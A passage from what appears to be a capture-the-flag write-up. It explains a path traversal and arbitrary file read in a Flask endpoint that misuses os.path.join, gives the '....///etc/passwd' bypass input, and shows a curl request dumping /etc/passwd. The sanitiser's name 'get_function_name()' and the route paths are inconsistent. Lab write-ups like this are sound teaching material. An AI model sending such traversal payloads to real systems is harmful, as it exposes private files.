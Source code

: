 ## Arbitrary File Read Vulnerability

The file download endpoint successfully leverages `get_function_name()` to recursively remove the substring `../` from the user input `path`. However, its use of this function in combination with vulnerable usage of Python's [os.path.join()](https://docs.python.org/3/library/os.path.html#os.path.join) results in an arbitrary file read vulnerability.

According to [os.path.join()](https://docs.python.org/3/library/os.path.html#os.path.join)'s documentation, "If an [argument] is an absolute path, all previous [arguments] are thrown away and joining continues from the absolute path [argument]." For example, the result of `os.path.join("foo", "bar", "/baz")` is `/baz`. Since the user input `path` is the final argument passed in, it is possible to cause this function to return an absolute path completely controlled by the user. Since this is subsequently passed into Flask's `send_file()`, the result is an arbitrary file read.

However, even though `path` is Flask's [path type](https://flask.palletsprojects.com/en/2.2.x/quickstart/#variable-rules) which can *contain* forward slashes, values of this type can't *begin* with forward slashes. Thus, requesting `/upcloud/uploads//etc/passwd` automatically causes Flask to redirect the user to `/upcloud/uploads/etc/passwd`, which doesn't properly exploit `os.path.join()`.

Ironically, `get_function_name()` can be abused here to bypass this restriction. By requesting `/upcloud/uploads/....///etc/passwd`, the Flask restriction is bypassed because `path`'s value of `....///etc/passwd` doesn't begin with a forward slash and `get_function_name()` will then recursively strip away the `../`s. `os.path.join(os.getcwd(), "public", "uploads", "/etc/passwd")` will then execute, eventually yielding the contents of `/etc/passwd`.

```bash
$ curl http://10.129.46.240/uploads/....///etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
```
